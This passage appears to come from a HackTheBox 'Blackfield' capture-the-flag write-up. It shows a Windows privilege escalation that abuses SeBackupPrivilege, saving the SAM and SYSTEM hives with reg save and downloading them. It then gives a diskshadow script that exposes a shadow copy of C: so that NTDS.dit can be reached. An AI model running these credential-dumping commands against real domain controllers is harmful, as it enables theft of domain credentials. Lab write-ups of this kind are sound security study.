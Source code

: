 ![](/assets/img/HTB/easy/Blackfield/priv.png)
- i do have SeBackupPrivilege priviledge in which i will backup sam and system and i will use pass the hash of administrator

```
cd C:\windows\tasks
reg save hklm\sam C:\windows\tasks\sam
reg save hklm\system C:\windows\tasks\system
download C:\windows\tasks\sam /home/blackninja23/CTF/HTB/Blackfield/sam
download C:\windows\tasks\system /home/blackninja23/CTF/HTB/Blackfield/system
```
- the above command didnot work since they are being used only for local account but i did try them
- I read this [interest article about exploit it in Domain Controllers](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960)
- let download ntds
- I will save the following lines below with name called script.txt 

```
set verbose onX
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

- I will take script.txt to Domain controller then i will execute with diskshadow

```
diskshadow /s script.txt
```
